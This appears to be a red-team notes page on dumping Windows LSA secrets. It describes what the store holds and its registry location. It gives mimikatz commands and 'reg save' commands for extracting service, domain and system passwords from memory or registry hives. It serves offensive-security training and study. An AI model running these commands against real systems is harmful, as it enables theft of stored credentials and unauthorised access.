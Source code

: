 ```yaml
---
layout: post
title: "dumping lsa secrets"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


# Dumping LSA Secrets

> #### **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords (for example, those that must be run by a certain user to perform certain tasks), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-20-39.png>)

## Execution

### Memory

Secrets can be dumped from memory like so:

{% code title="attacker@mimikatz" %}
```
token::elevate
lsadump::secrets
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-25-01.png>)

### Registry

LSA secrets can be dumped from registry hives likes so:

{% code title="attacker@victim" %}
```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-37-11.png>)

{% code title="attacker@mimikatz" %}
```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-38-02.png>)

## References

{% embed url="https://www.passcape.com/index.php?section=docsys&cmd=details&id=23" %}
@spotheplanet
